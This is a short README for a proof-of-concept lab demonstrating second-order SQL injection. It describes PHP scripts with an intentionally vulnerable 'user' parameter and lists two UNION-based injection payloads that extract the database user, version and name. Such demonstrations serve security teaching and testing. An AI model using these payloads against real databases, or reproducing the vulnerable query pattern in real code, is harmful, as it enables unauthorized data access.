 # Second-Order-SQLi
This is a POC for Second Order SQL Injection
0. Before using change the database details in both files ( getdata.php and instert.php)
1. When you run instertdata.php, it will create a two tables profile and pii. 
2. When you run getdata.php with id, it will fetch the details from both tables. 
 Though id is there in only profile table, internally the script run another sql query filter "user" as both have "user" column common. 
 Here "user" parameter is vulnerable
 
 Attack: 
  vunerable parameter (insert.php) - user
  1. Payload: X' UNION SELECT user(),version(),database(), 4 -- 
  2. Palyoad:  X' UNION SELECT 1,2,3,4 -- 
  
